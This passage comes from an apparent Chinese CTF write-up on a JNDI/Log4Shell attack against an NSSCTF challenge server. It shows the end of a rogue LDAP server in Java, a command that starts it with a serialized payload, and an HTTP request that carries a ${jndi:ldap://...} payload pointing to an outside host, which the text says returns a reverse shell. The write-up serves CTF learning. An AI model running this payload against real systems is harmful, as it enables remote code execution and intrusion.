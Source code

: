 ```java
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}

```

‍

以jar的形式开启，并且传入序列化的值

```bash
java -jar LDAPServer.jar ip 1.txt
```

然后用JNDI去找IP+PORT即可成功反弹

‍

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-e4ce96055b7d3bf1125616004c3b436b5a8d8b5f.png)​​

```xml
GET /{{urlenc(${jndi:ldap://152.136.46.28:6666/Evail})}} HTTP/1.1
Host: node5.anna.nssctf.cn:28379
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
```